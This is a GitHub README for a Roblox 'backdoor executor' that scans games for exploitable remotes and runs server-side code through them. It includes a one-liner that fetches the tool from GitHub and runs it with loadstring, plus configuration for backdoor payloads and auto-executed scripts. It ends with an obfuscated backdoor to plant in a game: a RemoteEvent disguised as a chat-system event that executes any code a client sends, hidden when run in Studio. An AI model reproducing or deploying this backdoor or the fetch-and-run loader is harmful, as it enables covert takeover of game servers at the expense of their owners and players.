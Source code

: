 # backdoor-executor.lua
###
* Created on: July 22, 2021 GMT+8 (based on the commit date in my jLn0n/scripts-private repo)
###
might be the best and fastest backdoor scanning tool in existance.

## Info

This script is for [ROBLOX](https://roblox.com) scanning backdoors and executing serversided scripts within a GUI.

### Script

Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/scripts/main/backdoor-executor/backdoor-executor.lua"))()
```

### Requirements

- A brain that knows this stuff.
- A decent script utility that supports most of [UNC](https://scriptunc.org) functions.

### FAQ

- My configuration file got resetted back to original.
> That's completely normal, it will happen usually if the configuration failed to load.  
> (I might remove the overwrite thing soon.)

### Configuration Wiki

- Using Cache:
> Caching can be used to quickly find the remote on a specific game without any waiting.   
> example:
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source is the place that the executing script will be putted
	["SourceFunc"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```

- Using Auto Execute:
> AutoExecute can be used to load script after backdoor is successfully found.  
> You can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[warn("backdoor-executor.lua loaded!")]],
	[[require(someid).load(%username%)]],
},
```

- Using Script Macros:
> Script Macros can be very helpful to set values.  
> Config example:
```lua
{
	["staticmacro"] = "value", -- returns "value"
	["dynamicmacro"] = function() -- returns a random number of 1-100
		return math.random(1, 100)
	end,
}
```
> Usage example:
```lua
print(%username%, %userid%, %placeid%) -- prints "Username", 69420, 1818 as an example
```

- Using Remote Filters:
> Remote Filters can be used to block any of the remotes with specific properties.  
> example:
```lua
{
	["exampleFilter"] = function(remoteObj) -- the remote will be filtered out of the remoteObj name is "bogus" and its parent name is "yomama"
		return remoteObj.Name == "bogus" or remoteObj.Parent.Name == "yomama"
	end,
},
```

- Using Backdoor Payloads:
> Backdoor Payloads is a new feature that can be used to customize arguments of remotes on when scanning.  
> It can be also be used for a certain remote to be used with the provided payload.  
> example:
```lua
{
	["examplePayload"] = {
		["Payload"] = {"arg1here", "source"}, -- this is the arguments that is gonna be loaded in the specified remote, same details as the args in cache
		["Verifier"] = function(remoteObj) -- this verifies if remoteObj is appropriate to be used for payload, the remote will be provided with the argument {"arg1here", "payloadSrc"} if remoteObj is descendant of JointsService
			return remoteObj:IsDescendantOf(game:GetService("JointsService"))
		end
	}
}
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `LoadStringEnabled` property in `ServerScriptService`. (code is semi-obfuscated)
```lua
if game:GetService("\82\117\110\83\101\114\118\105\99\101"):IsStudio() or not game:GetService("\83\101\114\118\101\114\83\99\114\105\112\116\83\101\114\118\105\99\101")["\76\111\97\100\83\116\114\105\110\103\69\110\97\98\108\101\100"] then return end;local a=Instance.new("\82\101\109\111\116\101\69\118\101\110\116");a.Name="\71\101\116\80\108\97\121\101\114\77\101\115\115\97\103\101\65\115\121\110\99";a.Parent=game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101"):WaitForChild("\68\101\102\97\117\108\116\67\104\97\116\83\121\115\116\101\109\67\104\97\116\69\118\101\110\116\115");a.OnServerEvent:Connect(function(_, b)loadstring(b)()end)
```
